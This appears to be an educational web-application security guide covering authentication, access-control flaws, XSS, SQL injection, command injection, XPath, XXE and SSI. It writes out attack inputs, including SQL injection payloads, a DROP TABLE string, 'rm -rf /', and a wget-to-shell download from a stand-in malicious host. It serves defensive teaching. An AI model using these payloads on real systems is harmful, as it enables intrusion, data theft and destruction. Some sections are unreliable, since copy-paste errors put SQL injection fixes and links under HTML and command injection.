Build Better Web
A comprehensive guide to implementing security best practices for modern web applications. Learn how to protect your applications from common vulnerabilities and build more secure software.
1. Authentication
📌Authentication
Authentication vulnerabilities occur when login or identity verification mechanisms are weak or misconfigured. They can let attackers impersonate users, steal data, or take over accounts. The fix is strong password policies, multi-factor authentication, secure session handling, and regular monitoring.
This occurs because the web application does not properly check user permissions before showing sensitive pages or data.
🔑 Types of Authentication Vulnerabilities
Weak Passwords – Users choose simple or reused passwords that attackers can guess or brute-force.
Credential Stuffing – Attackers use stolen username/password pairs from other breaches to log in.
Brute Force Attacks – Automated attempts to guess passwords until successful.
Session Hijacking – Attackers steal session tokens/cookies to impersonate users.
Broken Authentication – Poor implementation of login, password reset, or session management.
Default Credentials – Systems shipped with default usernames/passwords (e.g., “admin/admin”).
Missing Multi-Factor Authentication (MFA) – Reliance only on passwords makes accounts easier to compromise.
💥 Impact of the Issue
Account Takeover – Attackers gain full access to user accounts.
Data Breach – Sensitive information (personal, financial, health data) is exposed.
Financial Loss – Fraudulent transactions or ransom demands.
Reputation Damage – Loss of customer trust and regulatory penalties.
Regulatory Fines – Non-compliance with standards like GDPR, HIPAA, or PCI DSS.
🎭 Attacker Scenarios & Examples
Credential Stuffing Attack: An attacker uses leaked credentials from another site to log into a banking app.
Brute Force Attack: Automated scripts try thousands of password combinations until they succeed.
Session Hijacking: A hacker intercepts a session cookie over unsecured Wi-Fi and impersonates the user.
Phishing + Weak Authentication: A user clicks a fake login link; without MFA, the attacker logs in easily.
Default Credentials Exploit: IoT devices with unchanged factory passwords are taken over by botnets.
🛠️ Remediation (How to Fix It)
Strong Password Policies – Enforce complexity, length, and rotation.
Multi-Factor Authentication (MFA) – Add extra verification like SMS, authenticator apps, or biometrics.
Rate Limiting & Lockouts – Prevent brute-force attempts by limiting login retries.
Secure Session Management – Use HTTPS, regenerate session IDs, and set secure cookie flags.
Monitor & Alert – Detect unusual login attempts or geographic anomalies.
Disable Default Accounts – Remove or change default credentials immediately.
Regular Security Testing – Penetration testing and vulnerability scans.
🔗 Reference Links:
https://brightsec.com/blog/broken-authentication-impact-examples-and-how-to-fix-it/
https://www.strongdm.com/blog/authentication-vulnerabilities
https://www.geeksforgeeks.org/ethical-hacking/broken-authentication-vulnerability/
2. Privilege Escalation via Force Browsing
📌 Privilege Escalation via Force Browsing:
Privilege Escalation via Force Browsing happens when an attacker manually changes the URL or browses directly to a web page or resource that should only be accessible to higher-privileged users (like admins).
This occurs because the web application does not properly check user permissions before showing sensitive pages or data.
Example:
A normal user has access to:
https://example.com/user/profile
But the attacker tries:
https://example.com/admin/dashboard
If the application fails to verify that the user is an admin and shows the admin dashboard, that’s a Force Browsing privilege escalation vulnerability.
💥 Impact of the Issue
Unauthorized access: Attackers can view or modify data not meant for them.
Privilege escalation: Normal users can gain admin or manager privileges.
Data leakage: Sensitive data (like financial, personal, or system configuration) may be exposed.
System compromise: Attackers can perform administrative actions such as deleting users, changing roles, or accessing restricted resources.
🧠 Attacker Scenarios
1. Attacker logs in as a regular user.
2. They inspect URLs of pages they can access (like /user/profile).
3. They guess or modify the URL to access a restricted area (like /admin/settings).
4. If the server does not validate the user’s access rights, the attacker successfully reaches the admin area.
5. The attacker can now change system settings, steal data, or delete users — effectively escalating privileges.
🛠️ Remediation (How to Fix It)
1. Implement proper access control checks on every page and API endpoint — not just on the user interface.
2. Use role-based access control (RBAC) to verify user roles before granting access.
3. Avoid relying on hidden URLs or client-side restrictions (e.g., hiding admin links from regular users).
4. Return 403 Forbidden or redirect when unauthorized access is attempted.
5. Regularly test your application for access control issues using tools or manual penetration testing.
6. Log and monitor unauthorized access attempts to detect force-browsing attacks.
🔗 Reference Links:
https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control
https://sudip-says-hi.medium.com/missing-function-level-access-control-a773990d8a63
https://www.geeksforgeeks.org/computer-networks/how-to-prevent-broken-access-control/
3. Privilege Escalation Via Backend Session Tokens
🧩 Privilege Escalation via Backend Session Cookie or Authorization Token Modification:
This vulnerability occurs when an attacker modifies or forges a session cookie or authorization token (like a JWT) to gain unauthorized access or higher privileges in a web application.
In many web apps, users are identified and authorized using cookies or tokens stored in the browser. If these tokens are not securely protected or validated, attackers can edit or replace them to impersonate another user or escalate their privileges (e.g., become an admin).
Example:
// Normal JWT (base64 decoded)
{
"user": "john",
"role": "user"
}
If an attacker changes it to:
{
"user": "john",
"role": "admin"
}
and the backend does not properly verify the token signature or role, the attacker gains admin access.
✅ Correct:
Token is signed by the server with a secret key.
Backend checks user’s actual role in the database before granting access.
❌ Vulnerable:
Token contains "role": "admin" and the backend trusts this without checking or validating the signature.
💥 Impact of the Issue
Unauthorized access: Attackers can access protected data or admin dashboards.
Privilege escalation: Regular users can perform admin-level actions.
Data Theft or Tampering: Attackers can modify, delete, or steal sensitive information.
Account Takeover: If sessions or tokens can be reused or stolen, attackers can act as other users.
Business Damage: Leads to data breaches, system misuse, and loss of user trust.
🧠 Attacker Scenarios
1. The attacker logs in as a normal user and gets a valid session cookie or JWT token.
2. They inspect or decode the token (e.g., using jwt.io).
3. They modify the token values such as:
Change "role": "user" → "role": "admin", or
Replace "user_id": "1002" → "user_id": "1001".
4. They re-encode the token and send it in their browser request.
5. If the backend does not properly verify the token’s signature or trusts the client-provided role, the attacker successfully performs admin actions.
🔒 Remediation (How to Fix It)
1. Server-side Authorization Check: Always verify the user’s privileges on the backend before granting access.
2. Use Securely Signed Tokens:Sign JWTs using strong algorithms (e.g., HS256, RS256) and always verify signatures on the server.
Never accept unsigned tokens (alg: none vulnerability).
3. Avoid Storing Roles or Permissions in Modifiable Tokens:Keep roles and permissions server-side.
Use the token only as a reference (like a session ID).
4. Implement Role-Based Access Control (RBAC): Check user roles and permissions on each request server-side.
5. Use Secure Cookies: Add HttpOnly, Secure, and SameSite flags to prevent cookie theft.
6. Short Token Lifetimes & Revocation: Use short-lived tokens and refresh tokens where needed.
7. Input Validation: Reject any modified, expired, or invalid tokens.
8. Monitor & Log: Track token validation failures and suspicious login activity.
📚 Reference Links:
https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html
https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/
https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html
4. Privilege Escalation via Response Manipulation
🧩 Privilege Escalation via Response Manipulation:
Privilege Escalation via Response Manipulation happens when an attacker modifies or tampers with a server’s response (for example, JSON or HTML data sent to the browser) to gain higher privileges or unauthorized access within a web application.
In this attack, the web application trusts client-side information (like data from responses) to control user privileges or access levels — instead of validating permissions on the server.
Example:
A web API returns this JSON after login:
// Normal JWT (base64 decoded)
{
"username": "user1",
"role": "user",
"isAdmin": false
}
If the attacker changes it (using tools like Burp Suite or browser dev tools) to:
{
"username": "user1",
"role": "admin",
"isAdmin": true
}
and the web app allows admin actions based on this manipulated data, the attacker can escalate privileges.
❌ Vulnerable design:
Frontend checks if isAdmin = true to show admin options — no server validation.
✅ Secure design:
The frontend just displays the UI. When an admin action is requested, the backend verifies the user’s role in the database before allowing it.
💥 Impact of the Issue
Unauthorized access: Attackers can access admin pages or restricted features.
Privilege escalation: Normal users can perform admin-level actions.
Data modification or theft: Attackers can change, delete, or steal sensitive data.
Service disruption: Admin-only features can be misused to harm the system.
Compliance risks: Exposure of personal or confidential data can lead to legal issues.
🧪 Attacker Scenarios
1. The attacker logs in as a normal user.
2. The application’s backend sends a response like:
{"username": "alex", "role": "user"}
3. The attacker intercepts this response using a proxy tool (like Burp Suite) or browser Developer Tools.
4. The attacker modifies the response to:
{"username": "alex", "role": "admin"}
5. The frontend UI now displays admin features because it trusts the modified response.
6. The attacker uses these features to access sensitive data or perform administrative operations.
7. If the server doesn’t recheck permissions when processing requests, the attacker succeeds in privilege escalation.
🔒 Remediation (How to Fix It)
1. Enforce server-side authorization checks: Always verify user permissions on the backend before performing any action.
2. Never trust client-side data: Do not rely on values (like isAdmin or role) received from the frontend or stored in responses.
3. Use proper authentication and access control: Implement Role-Based Access Control (RBAC) or Attribute-Based Access Control (ABAC) on the server.
4. Secure all responses: Send only necessary data in responses — avoid sending sensitive role or permission info to the client.
5. Use HTTPS/TLS: Protect communication from being intercepted or modified during transit.
6. Implement integrity checks: Validate the integrity of responses or use signed tokens (like JWTs with verified signatures).
7. Log and monitor abnormal actions: Record unauthorized access attempts or unusual role changes.
📚 Reference Links:
https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html
https://owasp.org/Top10/A01_2021-Broken_Access_Control/
https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Security_Cheat_Sheet.html
5. Reflected Cross-Site Scripting
🧩 Reflected Cross-Site Scripting (Reflected XSS):
Reflected XSS (Cross-Site Scripting) happens when a web application immediately “reflects” (shows back) user input (like URL parameters or form data) in a webpage without properly validating or escaping it.
This allows an attacker to inject malicious JavaScript code into the victim’s browser — usually through a crafted URL.
Example:
Let’s say a website has a search feature:
https://example.com/search?query=apple
and the site displays:
Results for "apple"
If the application doesn’t sanitize input properly, an attacker could craft a URL like:

When a victim clicks this link, the site responds:

➡️ The browser executes the script, showing an alert — or worse, running attacker code in the victim’s session.
💥 Impact of the Issue
Session hijacking: Stealing cookies or tokens.
Account takeover: Using stolen credentials.
Phishing attacks: Redirecting users to fake pages.
Defacement: Modifying displayed content.
Malware distribution: Injecting scripts that download malicious files.
Severity varies with what the attacker can access (sensitive pages, privileged actions, cookies not protected by HttpOnly, etc.).
💣 Attacker scenario
1. Attacker finds a page that reflects a parameter into HTML (e.g., search, error message, redirect).
2. Attacker crafts a malicious URL:

3. Victim clicks the link (phishing email, chat, forum).
4. The site responds with the q value inserted into the page without proper escaping.
5. The browser executes the script in the context of victim.com.
6. Attacker receives the victim’s cookies or triggers actions (change password, transfer funds, etc.).
Variant: Script delivered inside an attribute, event handler, or in a URL used by the page — context matters for payloads.
🛠️ Remediation (How to Fix It)
1. Escape output properlyEncode user input before rendering it in HTML, JavaScript, or attributes.
Example: convert "<" to "<", > to ">", etc.
2. Validate and sanitize inputsReject or filter unexpected characters in parameters.
3. Use a security frameworkUse libraries or templating engines that automatically escape data (e.g., React, Angular, Django templates).
4. Implement Content Security Policy (CSP)Restrict what JavaScript can run on the page.
5. Use modern frameworksFrameworks like React, Vue, and Angular help mitigate XSS by default escaping.
📚 Reference Links:
https://owasp.org/www-community/attacks/xss/
https://portswigger.net/web-security/cross-site-scripting/reflected
6. Stored Cross-Site Scripting
🧩 Stored XSS:
Stored (persistent) Cross-Site Scripting happens when an application saves attacker-controlled input (in a database, message board, user profile, comment, etc.) and later serves that input back to other users without proper escaping or sanitization.
When victims load the page that contains the stored payload, the malicious script runs in their browser as if it came from the trusted site.
Key difference from reflected XSS: the malicious script is stored on the server and can affect every visitor who views the stored content.
✅ Concrete vulnerable vs fixed examples
Vulnerable (simple PHP example — DO NOT DO THIS)

If $comment_from_db contains it will run in users' browsers.
Fixed (escape output)
Using PHP with htmlspecialchars() when rendering:

If allowing HTML (example using DOMPurify on input or output)
Sanitize allowed tags/attributes before storing or before sending to client:
// client-side example (also sanitize on server)
let clean = DOMPurify.sanitize(userHtml, {ALLOWED_TAGS: ['b','i','a','p','br']});
Prefer server-side sanitization as attackers can bypass client-side controls.
💥 Impact of the Issue
Session hijacking: steal cookies or auth tokens (unless HttpOnly/protected).
Account takeover: perform actions as the victim (change password, transfer money).
Persistent phishing: show fake login forms inside the trusted site.
Malware delivery: inject scripts that download/execute malware.
Data leakage: read and exfiltrate data visible to the user.
Reputation damage: site appears compromised to all users.
Severity is often high because attacks can scale and persist until the stored payload is removed.
🧪 Attack scenarios
Scenario A — Malicious comment on a blogAn attacker posts a comment:

If the site stores that comment and later renders it unsafely on the article page, every visitor’s browser executes the script and sends cookies to the attacker.
Scenario B — Stored payload in user profileA user updates their profile bio with:

When other users view the attacker’s profile page, the onerror runs and redirects or captures data.
Scenario C — WYSIWYG input (forum post)A forum allows some HTML formatting but fails to sanitize attributes. Attacker saves:
Visitors clicking or (if inline event handlers fire on load due to bug) simply viewing the post can leak data.
🛠️ Remediation (How to Fix It)
1. Escape output (contextual encoding)Always encode user data when rendering it in HTML, attributes, JavaScript contexts, CSS, or URLs. The correct encoding depends on where the data is inserted:
HTML body: escape <, >, &, " etc.
HTML attribute: additionally escape quotes.
JavaScript context: use JS string escaping or avoid embedding untrusted data into script blocks.
URL context: percent-encode.
2. Use safe templating or frameworksUse template engines or frameworks that automatically escape outputs (React, Angular, Django templates, Thymeleaf, etc.) and prefer data binding over manual concatenation.
3. Sanitize rich HTML carefullyIf the app must accept HTML (WYSIWYG editors, user bios), sanitize allowed tags/attributes using a well-maintained library (e.g., DOMPurify for browser side, Bleach for Python, OWASP Java HTML Sanitizer). Prefer whitelisting allowed tags and attributes.
4. IInput validation and length limitsValidate input for expected types and sizes. Don’t rely on validation alone — always escape output.
5. Content Security Policy (CSP)Use CSP to restrict sources of executable scripts (e.g., disallow inline scripts, allow only trusted script hosts). CSP is a mitigation layer — not a replacement for proper escaping.
6. HttpOnly / Secure / SameSite cookiesMark authentication cookies as HttpOnly, Secure, and SameSite so JavaScript can’t easily read them and to reduce session theft.
7. Use secure headersSet X-Content-Type-Options: nosniff, Referrer-Policy, and others as appropriate.
8. Remove/clean stored payloads and monitorLog and scan stored content for suspicious scripts; remove malicious entries. Use WAFs and intrusion detection as extra layers.
📚 Reference Links:
https://owasp.org/www-community/attacks/xss/
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
https://portswigger.net/web-security/cross-site-scripting/stored
https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting
https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP
7. DOM-based Cross-Site Scripting (XSS)
🌐 DOM-based XSS:
A DOM-based Cross-Site Scripting (XSS) vulnerability happens when malicious input is executed directly in the browser’s Document Object Model (DOM) via insecure client-side JavaScript. Unlike traditional XSS, the payload may never reach the server, making detection harder.
DOM-based XSS occurs when JavaScript on the client side dynamically updates the page using unsanitized user input.
Difference from other XSS:Stored XSS: Payload saved on the server and shown to users later.
Reflected XSS: Payload sent to the server and reflected back in the response.
DOM-based XSS: Payload is processed entirely in the browser’s DOM without server involvement.
Example: 💥 Impact of the Issue
Session Hijacking: Steal cookies or tokens to impersonate users.
Data Theft: Extract sensitive information from web pages.
Phishing & Defacement: Inject fake login forms or misleading content.
Malware Delivery: Redirect users to malicious sites or load malware scripts.
Bypassing Security Tools: Since payloads may not hit the server, traditional firewalls and logs may miss them.
🎭 Attacker Scenarios & Examples
Phishing Attack: Injects fake login form via DOM manipulation.
Malvertising: Injects malicious ads into the page using unsanitized query parameters.
Real-World Example: DOM-based XSS has been found in search bars, comment sections, and URL fragments where JavaScript directly processes user input without sanitization.
🛠️ Remediation Strategies
Sanitize Input: Use libraries like DOMPurify to clean user-supplied HTML/JS.
Avoid Dangerous Functions: Don’t use document.write(), innerHTML, or eval() with untrusted input.
Use Safe APIs: Prefer textContent or innerText to insert user data safely.
Content Security Policy (CSP): Restrict script execution sources.
Regular Testing: Include DOM-based XSS checks in penetration testing.
Framework Security Features: Use modern frameworks (React, Angular) that auto-escape user input.
📚 Reference Links:
https://www.geeksforgeeks.org/javascript/dom-based-cross-site-scripting-attack-in-depth/
https://pentest-tools.com/blog/xss-attacks-practical-scenarios
8. SQL Injection (SQLi)
🧩 SQL Injection (SQLi):
SQL Injection (SQLi) is a vulnerability that happens when an application builds a database query using untrusted user input without safely handling it. An attacker supplies crafted input that changes the intended SQL statement, allowing them to read, modify, or destroy data — or sometimes execute commands on the database server.
Main types of SQL Injection (simple descriptions + what they let an attacker do)
1. In-band SQLi (Classic)Union-based: attacker uses UNION to append attacker-controlled query results to the app’s results.
Error-based: attacker forces database errors that reveal data.
When used: when application returns query results or error messages directly.
2. Inferential (Blind) SQLiBoolean-based (content-based) blind: attacker sends queries that return different page content depending on a true/false condition; attacker infers data.
Time-based blind: attacker forces a delay (e.g., SLEEP) to infer true/false from response time.
When used: when the app does not return query output or errors.
3. Out-of-band (OOB) SQLiUses DB features to make outbound requests (DNS/HTTP) to attacker-controlled servers to exfiltrate data.
When used: when direct or blind channels are blocked but outbound network from DB is allowed.
4. Second-order SQLiMalicious input is stored safely at entry but later used unsafely (concatenated into SQL) in another operation; exploit happens later.
💥 Impact of the Issue
Data theft: user data, PII, credit cards, internal tables.
Authentication bypass: log in as other users.
Data tampering or deletion.Remote code execution / server compromise (possible with certain DB features).
Lateral movement: obtain DB credentials and pivot to internal systems.
Service outage / DoS via expensive queries.
Compliance, financial & reputation damage.
🧪 Attack scenarios and examples — one per type (concrete payloads & explanation)
Example vulnerable pattern used in several scenarios:
-- vulnerable pseudo-code query = "SELECT * FROM products WHERE id = " + user_input;1. In-band — UNION-based (data extraction)
Scenario: Product page shows query results from products.
Attack payload: id=10 UNION SELECT 1, username, password FROM users-- -
What happens: The app’s response now includes rows from users because UNION appends results.
Goal: Harvest usernames, hashes, emails.
Prevention: Use parameterized queries; never build SQL by concatenating user input.
Safe replacement example (Node.js, mysql2):
const [rows] = await conn.execute('SELECT * FROM products WHERE id = ?', [id]);
2. In-band — Error-based (reveal metadata)
Scenario: App displays DB error messages in responses (development-like behavior).
Attack payload (MySQL-like):' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) a) -- -
What happens: Crafted subquery induces a DB error containing the concatenated data (e.g., DB name); attacker reads the error.
Goal: Learn DB name, structure, craft further attacks.
Prevention: Hide DB errors from users; parameterize queries; limit error detail.
3. Inferential — Boolean-based blind (bit-by-bit extraction)
Scenario: App returns identical page for many inputs and shows no errors.
Attack method: Send queries that return different page content when a condition is true.
Example payload to test first character of admin’s password:?id=1 AND (SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a')
If response indicates true, attacker knows first character is a. Repeat for every character and position.
Goal: Recover password hash or other values without direct output.
Prevention: Parameterized queries, least privilege, rate limiting, monitoring.
4. Inferential — Time-based blind (using delay)Scenario: App response body is constant, but response time can reveal truth.
Attack payload (MySQL):?id=1 AND IF(ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),1,1))=97, SLEEP(5), 0) -- -
If response is delayed ~5s, first character is a. Repeat to extract values.
Goal: Same as boolean-blind, but via timing.
Prevention: Parameterized queries; detect unusual repeated delayed responses; block long-running queries.
5. Out-of-band (OOB) — DNS/HTTP exfiltrationScenario: DB server can perform network requests (DNS/HTTP) and attacker controls a domain attacker.com.
Attack idea (conceptual): Use a DB function to cause a DNS lookup to secret.[exfil].attacker.com where secret is data from the DB. Attack monitors DNS logs and captures the secret.
Concrete functions vary by DB: e.g., xp_dirtree/xp_cmdshell on SQL Server, UTL_HTTP on Oracle, DNS functions or LOAD_FILE/LOCAL INFILE combos on MySQL (or user-defined functions).
Goal: Exfiltrate data when in-band channels are closed.
Prevention: Disable outbound DNS/HTTP from DB servers, restrict DB functions, network egress filtering, least privilege.
6. Second-order SQLi (stored payload triggers later)Scenario: User inputs a profile bio that contains '); DROP TABLE users; -- and it is stored. Later, the application builds an admin query by concatenating that stored bio into SQL; the stored malicious string then executes.
Attack flow: Input is stored -> later used in unsafe SQL -> SQL executes.
Goal: Attack high-privilege operations via stored input.
Prevention: Always treat stored data as untrusted; use parameterized queries everywhere; code review for any place that reads stored values into SQL.
Quick code examples — safe patterns
PHP (PDO)
$stmt = $pdo->prepare('SELECT id, name FROM users WHERE id = :id');
$stmt->execute([':id' => $id]);
Python (psycopg2)
cur.execute("SELECT id, name FROM users WHERE id = %s", (user_id,))
Node.js (mysql2/promise)
const [rows] = await conn.execute('SELECT * FROM users WHERE id = ?', [id]);
C# (ADO.NET)
var cmd = new SqlCommand("SELECT * FROM users WHERE id=@id", conn);
cmd.Parameters.AddWithValue("@id", id);
🛠 Remediation
1. Use parameterized queries / prepared statements (primary defense).2. Use strong password hashing (bcrypt/Argon2) — never store plaintext.
3. Principle of least privilege: DB account used by the app should have only necessary rights.
4. Input validation with allowlists (type/format/length) — helpful but not sufficient.
5. Avoid dynamic SQL and string concatenation; if you must build identifiers dynamically, use strict allowlists/whitelists.
6. Suppress detailed DB errors to users; log internally.
7. Disable or restrict dangerous DB features (e.g., external network access, xp_cmdshell, UDFs) where possible.
8. Automated + manual security testing (authorized): include SQLi tests in CI or pentests.
9. Monitor & alert for anomalous queries, slow queries, or unexpected outbound DNS/HTTP from DB.
📚 Reference Links:
https://owasp.org/www-community/attacks/SQL_Injection
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
9. HTML Injection
🧩 HTML Injection:
HTML Injection occurs when an application inserts user-supplied data directly into a web page as HTML (not escaped), letting an attacker inject tags, attributes, or markup that change page content or behavior. When that injected HTML can execute script, it becomes XSS (Cross-Site Scripting).
Main types of HTML Injection
1. Reflected — injection appears immediately in the HTTP response (e.g., search pages).
2. Stored (persistent) — malicious HTML is saved (comments, profiles) and served to other users. (Higher impact.)
3. DOM-based — client-side JavaScript inserts untrusted input into the DOM (e.g., innerHTML) causing injection.
4. Markup-only (non-script) — no JS, but attackers can manipulate layout or create fake UI elements (still dangerous).
💥 Impact of the Issue
Script execution (XSS) → steal cookies, tokens, or perform actions as the victim.
Credential theft / account takeover via stolen session tokens or fake login forms.
UI spoofing / phishing — show fake forms or messages on trusted pages.
Data exfiltration — send user data to attacker endpoints.
Content defacement — change what users see.
Combined attacks — CSRF, privilege escalation, or persistence via stored injections.
Compliance/reputation damage if user data leaks or site is defaced.
Severity depends on whether "script/event" handlers are allowed and what sensitive actions are available.
🧪 Typical attack scenarios & concrete examples
Examples are for defensive learning only.
1. Stored HTML Injection — forum commentVulnerable flow: app saves comment without escaping and later renders it.
Stored payload:
Result: Visitors’ browsers run the script and leak cookies.
Impact: session theft, account takeover.
2. Reflected HTML Injection — search pageVulnerable code (pseudo):

Result: Clicking the crafted link executes script in the browser immediately.
3. DOM-based HTML Injection — client-side insertionVulnerable JS:

Result: script runs entirely via client-side DOM manipulation.
4. Markup-only UI spoof (no script)Stored payload:

Result: Victims see a fake login embedded in a trusted page and submit credentials to attacker.
5. Attribute abusePayload:
🛠 Remediation
1. Use parameterized queries / prepared statements (primary defense).2. Use strong password hashing (bcrypt/Argon2) — never store plaintext.
3. Principle of least privilege: DB account used by the app should have only necessary rights.
4. Input validation with allowlists (type/format/length) — helpful but not sufficient.
5. Avoid dynamic SQL and string concatenation; if you must build identifiers dynamically, use strict allowlists/whitelists.
6. Suppress detailed DB errors to users; log internally.
7. Disable or restrict dangerous DB features (e.g., external network access, xp_cmdshell, UDFs) where possible.
8. Automated + manual security testing (authorized): include SQLi tests in CI or pentests.
9. Monitor & alert for anomalous queries, slow queries, or unexpected outbound DNS/HTTP from DB.
📚 Reference Links:
https://owasp.org/www-community/attacks/SQL_Injection
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
10. OS Command Injection
🖥️ OS Command Injection
An OS Command Injection vulnerability happens when an application takes user input and passes it directly to the operating system’s command shell without proper validation. Attackers can exploit this to run arbitrary commands, steal data, or fully compromise the server.
Also known as shell injection, it occurs when user input is concatenated into system-level commands.
Lack of input validation or unsafe use of functions like system(), exec(), or backticks in code.
Example:http://example.com/ping?host=127.0.0.1; rm -rf /
The ; rm -rf / part is injected into the OS command, potentially deleting files.
💥 Impact of the Issue
Data Breach: Attackers can read sensitive files (e.g., /etc/passwd, database configs).
System Takeover: Arbitrary commands allow privilege escalation and remote control.
Denial of Service (DoS): Malicious commands can crash or overload the server.
Pivoting: Attackers can use the compromised server to attack other systems in the network.
🎭 Attacker Scenarios & Examples
File Disclosure: Attacker injects ; cat /etc/passwd to read system user info.
Remote Control: Injecting ; wget http://malicious.com/malware.sh | sh downloads and executes malware.
Privilege Escalation: Exploiting weak configurations to run commands as root.
Real-World Example: OS command injection has been found in vulnerable web apps where user-supplied parameters (like filenames or IP addresses) were passed directly to shell commands without sanitization.
🛠 Remediation
1. Input Validation: Strictly validate and sanitize user input.
2. Avoid Direct OS Calls: Use safe APIs or libraries instead of executing shell commands.
3. Parameterized Functions: Where possible, use functions that separate logic from input (e.g., prepared statements for DB).
4. Least Privilege: Run applications with minimal OS permissions.
5. Escaping & Encoding: Properly escape special characters if commands are unavoidable.
6. Security Testing: Regular penetration testing and code reviews to catch unsafe command usage.
📚 Reference Links:
https://owasp.org/www-community/attacks/SQL_Injection
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
11. XPath Injection
📂 XPath Injection
An XPath Injection vulnerability occurs when user input is unsafely included in an XPath query used to search XML data. Attackers can manipulate the query to bypass authentication, extract sensitive data, or alter application logic. The fix is input validation, parameterized queries, and avoiding direct concatenation of user input into XPath expressions.
XPath is a query language for XML documents. XPath Injection happens when an application builds XPath queries using unsanitized user input.
Similar to SQL Injection, but targeting XML data sources instead of databases.
Example://users/user[username/text()='admin' and password/text()='1234']
If input is not sanitized, an attacker could enter:
' or '1'='1
This changes the query logic to always return true, bypassing authentication.
💥 Impact of the Issue
Authentication Bypass: Attackers log in without valid credentials.
Data Exposure: Sensitive XML data (usernames, passwords, IDs) can be extracted.
Privilege Escalation: Attackers may gain admin-level access.
Application Manipulation: Business logic relying on XML queries can be altered.
Regulatory Risk: Exposure of personal data can lead to compliance violations.
🎭 Attacker Scenarios & Examples
Login Bypass: Attacker enters ' or '1'='1 in the password field, gaining access without knowing the real password.
Data Harvesting: Injecting queries to list all usernames and passwords stored in XML.
Privilege Escalation: Manipulating queries to return admin accounts instead of normal users.
Real-World Example: Applications using XML for configuration or authentication (e.g., legacy systems, SAML-based apps) have been found vulnerable when developers directly concatenate user input into XPath queries.
🛠 Remediation
1. Parameterized Queries: Use APIs or libraries that separate query logic from user input.
2. nput Validation & Sanitization:I Reject or escape special characters (', ", //, []).
3. Least Privilege: Restrict XML data access to only what’s necessary.
4. Error Handling: Avoid detailed error messages that reveal query structure.
5. Security Testing: Include XPath Injection checks in penetration tests.
📚 Reference Links:
https://learn.snyk.io/lesson/xpath-injection/?ecosystem=javascript
https://www.imperva.com/learn/application-security/xpath-injection/
https://www.geeksforgeeks.org/ethical-hacking/xpath-injection/
12. XML External Entity (XXE) Injection
🧩 XML External Entity (XXE) Injection
An XXE (XML External Entity) vulnerability occurs when an application processes untrusted XML input and allows attackers to inject malicious XML entities. This can lead to sensitive file disclosure, denial of service, SSRF (Server-Side Request Forgery), or even remote code execution. The fix is to disable external entity processing in XML parsers and validate all XML input.
XML External Entity (XXE) Injection is a vulnerability in applications that parse XML.
XML allows defining entities (shortcuts for data). If external entities are enabled, attackers can reference local files or remote resources.
Example of a malicious XML payload:

Here, the entity &xxe; will include the contents of /etc/passwd.
💥 Impact of XXE
Sensitive File Disclosure: Read files like /etc/passwd, configuration files, or API keys.
Server-Side Request Forgery (SSRF): Force the server to make requests to internal systems.
Denial of Service (DoS): Use recursive entities (the “Billion Laughs” attack) to exhaust memory/CPU.
Remote Code Execution (in some cases): If combined with other flaws, attackers may execute arbitrary code.
Data Exfiltration: Steal credentials, tokens, or internal documents.
🎯 Attack Scenarios
1. File Disclosure AttackAttacker submits XML referencing /etc/passwd → server returns sensitive system data.
SSRF via XXE
Forces the server to fetch internal resources attackers can’t normally access.
Denial of Service (Billion Laughs Attack) Expands exponentially, crashing the server.
🛠 Remediation
1. Disable External EntitiesIn XML parsers, disable DOCTYPE and external entity resolution.
Example (Java):
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
2. Use Secure Parsers
Prefer modern libraries that are secure by default (e.g., defusedxml in Python).
3. Input ValidationAccept only expected XML structures.
Reject or sanitize untrusted XML input.
4. Least PrivilegeRun applications with minimal file and network permissions.
5. Regular Security TestingInclude XXE checks in penetration tests and code reviews.
📚 Reference Links:
https://www.indusface.com/blog/how-to-identify-and-mitigate-xxe-vulnerability/
https://portswigger.net/web-security/xxe
https://www.imperva.com/learn/application-security/xxe-xml-external-entity/
13. Server-Side Includes (SSI)
🧩 Server-Side Includes (SSI):
Server-Side Includes (SSI) are simple directives embedded in web pages (e.g. , ) that the web server evaluates before sending the page. SSI injection occurs when untrusted user input is allowed into content that the server will parse for SSI directives — letting an attacker make the server evaluate attacker-controlled SSI. That can lead to information disclosure, file inclusion, or in extreme cases execution of server-side commands depending on server configuration.
🎯 Examples — safe, non-exploitative
Vulnerable pattern (conceptual — do not use in production):
